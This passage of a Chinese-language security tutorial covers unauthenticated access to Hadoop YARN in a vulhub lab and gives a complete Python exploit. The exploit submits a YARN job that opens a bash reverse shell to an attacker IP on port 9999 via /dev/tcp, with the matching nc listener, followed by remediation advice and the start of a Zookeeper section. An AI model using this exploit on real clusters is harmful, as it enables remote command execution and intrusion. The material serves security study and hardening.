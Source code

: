Hadoop是一个由Apache基金会所开发的分布式系统基础架构，由于服务器直接在开放了 Hadoop 机器 HDFS 的 50070 web端口及部分默认服务端口，黑客可以通过命令行操作多个目录下的数据，如进行删除，下载，目录浏 览甚至命令执行等操作，产生极大的危害。 

## 环境搭建

```bash
root@kali:~/桌面/vulhub-master/hadoop/unauthorized-yarn# docker-compose up
```

## 漏洞利用

利用的exp脚本如下

```cmd
#!/usr/bin/env python
import requests
target = 'http://127.0.0.1:8088/'
lhost = '192.168.139.131' # put your local host ip here, and listen at port 9999
url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

在本地监听9999端口，然后python运行exp即可收获shell

```json
root@NC:/mnt/c/Users/Desktop# nc -lvp 9999
```

## 漏洞修复

1. 升级Hadoop到2.x版本以上，并启用Kerberos认证功能，禁止匿名访问;
2. 设置“安全组”访问控制策略，将 Hadoop 默认开放的多个端口对公网全部禁止或限制可信任的 IP 地址才能访问包括 50070 以及 WebUI 等相关端口；
3. 如无必要，关闭 Hadoop Web 管理页面

# Zookeeper未授权访问

ZooKeeper是一个分布式的，开放源码的分布式应用程序协调服务，是Google的Chubby一个开源的实现， 是Hadoop和Hbase的重要组件。它是一个为分布式应用提供一致性服务的软件，提供的功能包括：配置维护、域名服务、分布式同步、组服务等。

## 环境搭建
